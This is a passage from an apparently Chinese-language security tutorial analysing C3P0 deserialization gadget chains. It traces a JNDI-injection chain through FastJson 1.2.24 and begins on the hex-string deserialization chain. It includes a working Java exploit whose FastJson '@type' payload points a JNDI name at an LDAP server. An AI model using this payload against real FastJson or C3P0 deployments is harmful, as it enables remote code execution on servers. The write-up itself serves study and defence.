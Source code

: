 ```java  
        ois.readObject();    
    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409231934667.png)
### C3P0之JNDI注入  
#### 流程分析  
基于FastJson的一条链子  
全局搜索一下jndi  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409231958481.png)
在`dereference()`方法中存在`ctx.lookup()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409231957046.png)
这里的`lookup()`的变量是`jndiName`，跟进去看一下`jndiName`是什么  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232001614.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232001731.png)
判断了一下`jndiName`是什么`Name`类型，如果是就返回，不是就返回`String`类型  
查找一下哪里用了`dereference()`函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232003045.png)
在`inner()`方法中利用了，继续查找  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232004062.png)
有很多`getter/setter`方法利用了`inner()`函数，恰好满足了`fastjson`的利用要求  
#### EXP编写  
引入`fastjson`，构造`exp`  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;com.alibaba&lt;/groupId&gt;    
    &lt;artifactId&gt;fastjson&lt;/artifactId&gt;    
    &lt;version&gt;1.2.24&lt;/version&gt;    
]]&lt;/dependency&gt;  
```  
```java  
import com.alibaba.fastjson.JSON;    
    
// JndiRefForwardingDataSource 类的直接 EXP 调用    
public class JndiFastjson {    
    public static void main(String[] args) {    
        String payload = &#34;{\&#34;@type\&#34;:\&#34;com.mchange.v2.c3p0.JndiRefForwardingDataSource\&#34;,&#34; &#43;    
                &#34;\&#34;jndiName\&#34;:\&#34;ldap://127.0.0.1:1389/5fwc3t\&#34;,\&#34;LoginTimeout\&#34;:\&#34;1\&#34;}&#34;;    
        JSON.parse(payload);    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232017496.png)
### C3P0之hexbase攻击利用  
#### 流程分析  
这条链子能够成立的根本原因是，有一个`WarpperConnectionPoolDataSouce`类，它能够反序列化一串十六进制字符串  
链子首部是在`WarpperConnectionPoolDataSouce`类的构造函数中，如图  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232029778.png)
在给`userOverrides`赋值的时候，用的是`C3P0ImplUtils.parseUserOverridesAsString()`方法，这个方法的作用就是反序列化`userOverride`把它这个String类型的东西转换为对象  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232031205.png)
